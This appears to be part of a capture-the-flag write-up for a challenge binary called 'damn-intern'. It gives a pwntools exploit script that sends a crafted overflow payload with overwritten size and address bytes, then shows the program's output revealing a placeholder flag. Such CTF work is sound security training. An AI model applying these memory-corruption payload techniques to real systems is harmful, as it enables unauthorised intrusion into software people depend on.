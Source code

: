 ```python
import pwn
pwn.context(arch='amd64', os='linux')

payload =  b'y'*64
payload += b'\x00' * 8
payload += b'\x21'
payload += b'\x00' * 7
payload += b'\x98\x67\x40'
payload += b'\x00' * 21
payload += b'\x21'
payload += b'\x00' * 7
payload += b'\x98\x67\x40'

io = pwn.process("./damn-intern")
io.sendline(payload)
io.sendline(b"1")
io.sendline(b"GiveMeFlag")
io.sendline(b"99000")
io.sendline(b"2")
io.sendline(b"4")
io.interactive()
```

Result:

```
[+] Starting local process './damn-intern': pid 50281
[*] Switching to interactive mode
Do you work for the company?
Welcome to the new advanced and modern budgeting system created by a very talented intern!
  ______   _______                   __                        __      __                     
 /      \ /       \                 /  |                      /  |    /  |                    
/$$$$$$  |$$$$$$$  | __    __   ____$$ |  ______    ______   _$$ |_   $$/  _______    ______  
$$ |__$$ |$$ |__$$ |/  |  /  | /    $$ | /      \  /      \ / $$   |  /  |/       \  /      \ 
$$    $$ |$$    $$< $$ |  $$ |/$$$$$$$ |/$$$$$$  |/$$$$$$  |$$$$$$/   $$ |$$$$$$$  |/$$$$$$  |
$$$$$$$$ |$$$$$$$  |$$ |  $$ |$$ |  $$ |$$ |  $$ |$$    $$ |  $$ | __ $$ |$$ |  $$ |$$ |  $$ |
$$ |  $$ |$$ |__$$ |$$ \__$$ |$$ \__$$ |$$ \__$$ |$$$$$$$$/   $$ |/  |$$ |$$ |  $$ |$$ \__$$ |
$$ |  $$ |$$    $$/ $$    $$/ $$    $$ |$$    $$ |$$       |  $$  $$/ $$ |$$ |  $$ |$$    $$ |
$$/   $$/ $$$$$$$/   $$$$$$/   $$$$$$$/  $$$$$$$ | $$$$$$$/    $$$$/  $$/ $$/   $$/  $$$$$$$ |
                                        /  \__$$ |                                  /  \__$$ |
                                        $$    $$/                                   $$    $$/ 
                                         $$$$$$/                                     $$$$$$/  

Succesfully added 1000CHF for "Coffee for the finance team".

What do you want to do?
1) Ask for budget
2) See how much money will be spent
3) See an ASCII art of an unicorn
4) Exit
>Description: Amount:Succesfully added 99000CHF for "GiveMeFlag".
>shc2024{placeholder}
Total allocated budget: 100000
```
